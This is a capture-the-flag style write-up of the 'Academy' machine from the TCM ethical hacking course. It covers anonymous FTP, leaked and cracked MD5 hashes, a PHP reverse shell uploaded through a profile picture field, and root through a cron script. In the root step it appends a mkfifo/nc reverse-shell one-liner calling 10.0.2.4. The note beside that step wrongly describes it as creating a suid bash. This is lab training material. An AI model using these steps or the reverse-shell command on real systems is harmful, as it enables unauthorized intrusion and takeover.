




# Academy (TCM)

- Machine from TCM Ethical Hacking Course
- March 12, 2023
- easy 

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 3.0.3
   1. Anonymous login allowed
   2. note.txt -> read access
2. 22/ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
3. 80/http Apache httpd 2.4.38 ((Debian))
   1. Apache default page

### FTP 

- anonymous login and get note.txt

```
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta

```

### HTTP

- it is default Apache config page
- nothing interesting from view page source
- directory brute forcing with ffuf - `phpmyadmin` found
- from note.txt file, I guess `academy` and there is a page and try to enter with above credential
- before entering, the password may be md5 hash
- I used https://crackstation.net  to crack password
- then, enter with registration number



- directory brute forcing with ffuf to academy directory

```
admin
assets
db
includes
```



- get .sql file and it is ASCII text
- interesting lines

```
INSERT INTO `admin` (`id`, `username`, `password`, `creationDate`, `updationDate`) VALUES
(1, 'admin', '21232f297a57a5a743894a0e4a801fc3', '2020-01-24 16:21:18', '03-06-2020 07:09:07 PM');
```
- crack again
- get password
- found phpadmin page and login -> not success

## User Access 

- Found an upload area at profile



- listen with nc
- upload php-reverse-shell and reload the image 
- get `www-data` user shell




## Root Access

- in `/var/www/html/academy/admin/includes/config.php` found one password.
- there is only one user and root 
- try to enter with one of them
- it is grimmie's password
- in `/etc/crontab` -> 

```
* * * * * /home/grimmie/backup.sh
```
- `backup.sh` file is run by root every minute
- add this line to get `suid` bash in tmp folder

```sh
grimmie@academy:~$ echo "
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.4 4242 >/tmp/f" >> backup.sh
```
- listen with nc at local machine and wait for a minute and get root access

```sh
# whoami
root
# ls
flag.txt
# cat flag.txt
Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.

Happy hacking !
```

---